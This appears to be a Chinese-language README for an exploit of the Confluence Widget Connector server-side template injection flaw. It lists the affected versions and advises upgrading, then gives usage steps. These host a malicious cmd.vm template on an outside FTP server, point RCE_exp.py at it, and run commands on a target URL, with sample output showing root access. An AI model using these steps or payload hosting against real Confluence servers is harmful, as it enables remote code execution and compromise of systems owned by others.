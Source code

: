 # Confluence 远程命令执行高危漏洞

## 漏洞简介

Confluence Server 与 Confluence Data Center 中的 Widget Connector 存在服务端模板注入漏洞，攻击者构造特定请求可远程遍历服务器任意文件，甚至实现远程命令执行攻击。

## 影响范围

Version < 6.6.12

Version < 6.12.3

Version < 6.13.3

Version < 6.14.2

## 安全建议

升级至安全版本。

## exp使用方法

1、put the cmd.vm on your website (must use ftp or https ,http doesn't work )  
2、modify RCE_exp.py ，change the filename = 'ftp://1.1.1.1/cmd.vm'  （python -m pyftpdlib -p 21）  
3、python REC_exp.py http://test.wiki_test.cc:8080 "whoami"  
 
$ python REC_exp.py http://test.wiki_test.cc:8080 "id"  
uid=0(root) gid=0(root) groups=0(root)  
